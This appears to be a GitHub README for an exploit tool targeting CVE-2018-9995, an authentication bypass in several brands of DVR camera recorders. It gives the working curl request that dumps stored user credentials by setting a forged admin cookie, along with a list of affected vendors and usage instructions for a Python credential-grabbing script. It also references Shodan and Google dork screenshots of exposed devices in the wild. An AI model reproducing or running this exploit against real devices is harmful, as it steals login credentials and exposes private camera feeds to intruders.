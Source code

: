 #  [Tool] show DVR Credentiales

	[*] Exploit Title:       "Gets DVR Credentials" 
	[*] CVE:                 CVE-2018-9995
	[*] CVSS Base Score v3:  7.3.* / 10
	[*] CVSS Vector String:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N  
	[*] Date:                09/04/2018
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa )
	
![DVR_wall](screenshot/videoWall.jpg) 

### Exploit:

```
	$> curl "http://<dvr_host>:<port>/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"

```
## tested in DVR (banner/vendor ?):
	Novo
	CeNova
	QSee
	Pulnix
	XVR 5 in 1 (title: "XVR Login")
	Securus,  - Security. Never Compromise !! - 
	Night OWL
	DVR Login
	HVR Login
	MDVR Login

# On the Wild:
![DVR_dorks_2](screenshot/cow/shodan_1.png) ![DVR_dorks_1](screenshot/cow/google_1.png) 
![DVR_dorks_3](screenshot/cow/shodan_2.png)

## Possible Banners frontend (web):
![DVR_login_1](screenshot/loginFront/login_1.png)
![DVR_login_2](screenshot/loginFront/login_2.png)
![DVR_login_3](screenshot/loginFront/login_3.png)
![DVR_login_4](screenshot/loginFront/login_4.png)
![DVR_login_5](screenshot/loginFront/login_5.png)
![DVR_login_6](screenshot/loginFront/login_6.png)
![DVR_login_7](screenshot/loginFront/login_7.png)
![DVR_login_8](screenshot/loginFront/login_9.png)
![DVR_login_10](screenshot/loginFront/login_10.png)

## Indoor:
![DVR_indoor_1](screenshot/indoor/in_x.png)
![DVR_indoor_2](screenshot/indoor/in_x1.png)
![DVR_indoor_3](screenshot/indoor/in_1.png)
![DVR_indoor_4](screenshot/indoor/in_2.png)
![DVR_indoor_5](screenshot/indoor/in_3.png)
![DVR_indoor_6](screenshot/indoor/in_4.png)
![DVR_indoor_7](screenshot/indoor/in_5.png)


# TOOL: "show DVR Credentiales"

## Quick start (wait !)

	usr@pwn:~$ git clone https://github.com/ezelf/************.git
	usr@pwn:~$ cd *************

## help

	usage: getDVR_Credentials.py [-h] [-v] --host HOST [--port PORT]

	[+] Obtaining Exposed credentials

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port

	[+] Demo: python getDVR_Credentials.py --host 192.168.1.101 -p 81


## [pocs] (Output) :
![DVR_poc_4](screenshot/toolOutput/poc_4.png)
![DVR_poc_3](screenshot/toolOutput/poc_3.png)
![DVR_poc_2](screenshot/toolOutput/poc_2.png)
![DVR_poc_1](screenshot/toolOutput/poc_1.png)




